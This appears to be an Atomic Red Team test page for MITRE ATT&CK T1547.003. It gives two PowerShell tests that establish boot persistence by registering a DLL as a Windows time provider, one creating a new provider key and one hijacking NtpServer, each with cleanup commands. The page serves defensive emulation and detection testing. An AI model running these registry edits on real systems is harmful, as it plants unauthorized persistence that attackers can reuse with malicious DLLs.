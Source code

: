 ```yaml
---
tags: [T1547_003, atomic_test]
filename: "[[T1547.003|T1547.003 - Time Providers]]"
---
```


# T1547.003 - Time Providers
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/003)
<blockquote>Adversaries may abuse time providers to execute DLLs when the system boots. The Windows Time service (W32Time) enables time synchronization across and within domains.(Citation: Microsoft W32Time Feb 2018) W32Time time providers are responsible for retrieving time stamps from hardware/network resources and outputting these values to other network clients.(Citation: Microsoft TimeProvider)

Time providers are implemented as dynamic-link libraries (DLLs) that are registered in the subkeys of  <code>HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\</code>.(Citation: Microsoft TimeProvider) The time provider manager, directed by the service control manager, loads and starts time providers listed and enabled under this key at system startup and/or whenever parameters are changed.(Citation: Microsoft TimeProvider)

Adversaries may abuse this architecture to establish persistence, specifically by registering and enabling a malicious DLL as a time provider. Administrator privileges are required for time provider registration, though execution will run in context of the Local Service account.(Citation: Github W32Time Oct 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a new time provider](#atomic-test-1---create-a-new-time-provider)

- [Atomic Test #2 - Edit an existing time provider](#atomic-test-2---edit-an-existing-time-provider)


<br/>

## Atomic Test #1 - Create a new time provider
Establishes persistence by creating a new time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The new time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** df1efab7-bc6d-4b88-8be9-91f55ae017aa






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item "$PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll" C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg delete "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\AtomicTest" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>
<br/>

## Atomic Test #2 - Edit an existing time provider
Establishes persistence by editing the NtpServer time provider registry key under HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProvider.
The time provider will point to a DLL which will be loaded after the w32time service is started. The DLL will then create the file AtomicTest.txt
in C:\Users\Public\ as validation that the test is successful.

Payload source code: https://github.com/tr4cefl0w/payloads/tree/master/T1547.003/

**Supported Platforms:** Windows


**auto_generated_guid:** 29e0afca-8d1d-471a-8d34-25512fc48315






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
net stop w32time
Copy-Item "$PathToAtomicsFolder\T1547.003\bin\AtomicTest.dll" C:\Users\Public\AtomicTest.dll
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Users\Public\AtomicTest.dll" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "1" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "1" /f
net start w32time
```

#### Cleanup Commands:
```powershell
net stop w32time
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_SZ /v "DllName" /d "C:\Windows\SYSTEM32\w32time.DLL" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "Enabled" /d "0" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time\TimeProviders\NtpServer" /t REG_DWORD /v "InputProvider" /d "0" /f
rm -force C:\Users\Public\AtomicTest.dll
net start w32time
```





<br/>
